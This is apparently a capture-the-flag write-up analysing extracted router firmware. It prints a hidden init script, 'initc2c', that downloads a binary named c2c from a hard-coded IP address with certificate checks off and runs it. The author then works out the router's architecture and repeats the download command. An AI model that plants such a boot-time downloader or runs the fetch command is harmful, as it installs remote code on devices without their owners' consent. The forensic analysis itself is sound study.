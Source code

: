 The only file that catch the eye is the initc2c, let's check what's in there:
```
┌──(hutchyy㉿hutchyy)-[/mnt/…/build/_routeretour.bin.extracted/_unxored_router.bin.extracted/squashfs-root]
└─$ cat etc/init.d/initc2c
#!/bin/sh /etc/rc.common
# Example script
# Copyright (C) 2007 OpenWrt.org

start() {
        if ! command -v /tmp/c2cbot &> /dev/null
        then
            wget --no-check-certificate "https://108.129.42.183/$(uname -m)/c2c" -O /tmp/c2c
            chmod +x /tmp/c2c
        fi

        if ! command -v /tmp/c2c &> /dev/null
        then
            exit
        else
            /bin/c2c &
        fi
}
```

Interesting! This script is downloading a binary from a source then execute it. 

The script uses "uname -m" which retrieves the current architecture of the router.
We can't execute uname -m as we don't have an access to the router.
However the binaries stored in the filesystem should help use retrieve the CPU architecture.

Let's check with busybox which is the shell used by the router:
```
┌──(hutchyy㉿hutchyy)-[~/squashfs-root/bin]
└─$ file busybox
busybox: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-mips-sf.so.1, no section header
```

The binary is a MIPS32, however we don't know its endianess, to find it we can just look at the 5th byte.
```
┌──(hutchyy㉿hutchyy)-[~/squashfs-root/bin]
└─$ hexdump -s 5 -n 1 -C busybox
00000005  02                                                |.|
00000006
```
01 is little endian and 02 is big endian. In this case it is big endian.
As it is mips 32 big endian, the arch display by uname is just "mips".

Let's download the binary:
```
wget --no-check-certificate "https://108.129.42.183/mips/c2c" -O /tmp/c2c
```
